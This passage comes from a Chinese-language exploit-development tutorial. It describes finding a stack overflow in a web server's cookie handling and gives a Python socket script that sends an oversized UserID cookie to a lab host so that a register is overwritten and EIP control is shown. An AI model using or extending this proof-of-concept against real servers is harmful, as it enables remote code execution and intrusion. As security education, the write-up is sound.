 &nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这不就是一个栈溢出漏洞吗？edx直接被覆盖为了fuzzer的畸形数据，这就意味着我们可以很轻易的控制eip劫持程序。接下来该用调试器分析并编写exploit了，在0x045c8c2处下断后用若干次F9直到等待我们的输入，用python socket编程输入一串“A”查看：</font></br>

```python
import socket
import struct
target = "10.211.55.5"
port = 80
payload = 'A'*100
buf = (
"GET /vfolder.ghp HTTP/1.1\r\n"
"Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/xaml+xml, application/x-ms-xbap, application/x-ms-application, */*\r\n"
"Accept-Language: zh-cn\r\n"
"Accept-Encoding: gzip, deflate\r\n"
"If-Modified-Since: Fri, 11 May 2012 10:11:48 GMT; length=12447\r\n"
"User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET4.0C; .NET4.0E)\r\n"
"Host: 192.168.222.131:80\r\n"
"Conection: Keep-Alive\r\n"
"Cookie: SESSIONID=2626; UserID=" + payload + "; PassWD=; \r\n\r\n"
)
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((target,port))
s.send(buf.encode("latin-1"))
s.close() 
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>运行完了脚本之后调试器又中断在了我们的断点处，这时候应该是再F9执行三次就可以看到edx被0x41414141覆盖：</font></br>

![覆盖测试](./screenshot/覆盖测试.png)
